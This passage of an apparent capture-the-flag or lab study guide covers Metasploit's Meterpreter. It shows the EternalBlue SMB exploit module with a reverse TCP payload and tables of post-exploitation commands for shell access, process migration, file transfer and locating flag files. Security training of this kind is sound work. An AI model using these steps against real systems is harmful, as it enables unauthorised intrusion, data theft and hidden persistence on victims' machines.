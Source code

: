 ### 🎯 Exploit Defaults
Example:
```bash
use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```

List compatible payloads:
```bash
show payloads
```

---

## 🧪 Task 3 - Meterpreter Command Usage

### 🆘 View Help
```bash
meterpreter > help
```

### 🔧 Categories of Commands
1. Core Commands
2. File System
3. Networking
4. System
5. UI / Webcam / Audio
6. Privilege escalation
7. Timestomping
8. Scripting / Extensions

---

### ⚙️ Common Core Commands
| Command     | Description                          |
|-------------|--------------------------------------|
| `getuid`    | Show session user                    |
| `getpid`    | Current process ID                   |
| `ps`        | Show running processes               |
| `migrate`   | Switch to another process            |
| `shell`     | Drop into system shell               |
| `exit`      | Terminate Meterpreter                |
| `background`| Send session to background           |

---

### 📂 File System Commands
| Command     | Description                       |
|-------------|-----------------------------------|
| `cd`, `ls`  | Navigate file system              |
| `cat`, `edit` | View or edit files              |
| `upload`, `download` | Transfer files           |
| `search -f flag.txt` | Locate files             |

---